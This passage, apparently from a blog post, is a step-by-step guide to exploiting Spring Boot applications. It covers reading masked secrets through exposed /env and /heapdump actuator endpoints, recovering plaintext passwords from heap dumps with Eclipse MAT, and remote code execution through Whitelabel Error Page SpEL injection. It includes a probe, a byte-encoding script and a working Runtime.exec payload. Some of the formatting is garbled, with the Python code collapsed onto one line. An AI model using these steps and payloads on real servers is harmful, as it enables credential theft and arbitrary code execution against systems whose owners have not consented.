 - GET requests the /envor /actuator/envinterface of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

**Step 2:** Download JVM heap information

- The size of the downloaded heap dump file is usually between 50M and 500M, and sometimes it may be larger than 2G

- GET Request the target's /heapdumpor /actuator/heapdumpinterface to download the application's real-time JVM heap information

[](https://www.blogger.com/#)**Step 3: **Use MAT to get the password plaintext in the JVM heap

- Refer to the [article](https://landgrey.me/blog/16/) method, use the OQL statement of the [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) select * from org.springframework.web.context.support.StandardServletEnvironment tool to assist in fast filtering and analysis, and obtain the password plaintext

Remote Code Execution
---------------------

Since spring boot related vulnerabilities may be caused by the combination of multiple component vulnerabilities, some vulnerabilities are not named properly, whichever can be distinguished

### White Label Error Page SpEL RCE

**[](https://www.blogger.com/#)Conditions of use:**\
spring-boot 1.1.0-1.1.12, 1.2.0-1.2.7, 1.3.0 are Know at least one interface and parameter name that triggers the default error page of spring-boot\
[](https://www.blogger.com/#)

**How to use:**\
[](https://www.blogger.com/#)**Step 1:** Find a normal transmission location

- For example, if a visit is found /article?id=xxx, the page will report an error with a status code of 500: Whitelabel Error Page and subsequent payloads will be tried at the parameter id.

[](https://www.blogger.com/#)**Step 2:** Execute the SpEL expression

- Enter /article?id=${7*7}, if it is found that the error page calculates the value 49 of 7*7 and displays it on the error page, then it can be basically determined that the target has a SpEL expression injection vulnerability.

Convert from string format to 0x**java byte format for easy execution of arbitrary code:

```
# coding: utf-8result = ""target = 'open -a Calculator'for x in target:result += hex(ord(x)) + ","print(result.rstrip( ',' ))
```

[](https://www.blogger.com/#)

execute open -a Calculator command

|

${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
